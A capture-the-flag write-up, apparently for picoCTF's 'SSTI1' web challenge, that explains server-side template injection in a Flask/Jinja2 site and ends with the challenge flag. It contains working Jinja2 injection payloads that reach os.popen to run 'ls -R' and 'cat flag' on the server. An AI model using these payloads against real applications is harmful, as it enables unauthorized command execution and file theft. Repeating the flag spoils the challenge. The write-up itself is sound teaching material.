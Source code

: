 # SSTI1

## Description
I made a cool website where you can announce whatever you want! Try it out!
Additional details will be available after launching your challenge instance.

I heard templating is a cool and modular way to build web apps! Check out my website here!

## About the Challenge

Hint Given: Server Side Template Injection.

**Server Side Template Injection**  is when a threat actor exploits a template's native syntax and inject malicious payloadas into template. Compromised template is then executed server side. Attackers use the server-side template injection technique to directly insert user input into templates, allowing them to  introduce arbitrary directives that alter the template's engine. 

Upon opening the website in a new tab, I am greeted wiith a page that allows me to 'announce whatever you want" in the textbox as shown below:

![alt text](<Screenshot 2025-08-19 140244-1.png>)


## How to Solve?

Given the hint, it can be inferred that the vulnerability lies in lack of proper user input sanitisation, which allow attackers to input malicious scripts.

Firstly, lets test this theory by inputting {{8*8}} in the textbox, a common template expression for Jinja2 in Python's Flask. 

![alt text](<Screenshot 2025-08-19 150807.png>)

After pressing okay, the website processes the input and ouputs **64**
![alt text](<Screenshot 2025-08-19 150826.png>)

Hence, this confirms that server operates on Jinja2, and this allows me to proceed with next steps.

Using a different expression, we can obtain more information on where the flag is. Expression is shown below:

```
{{request.application.__globals__.__builtins__.__import__('os').popen('ls -R').read()}}
```

This list out all working directories and upon running this expression, following result is shown:

![alt text](<Screenshot 2025-08-19 151548.png>)

By modifying the expression to obtain the flag:

```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

WE ARE ABLE TO OBTAIN THE FLAG! 
![alt text](<Screenshot 2025-08-19 151739.png>)

Flag: picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_ae48ad61}
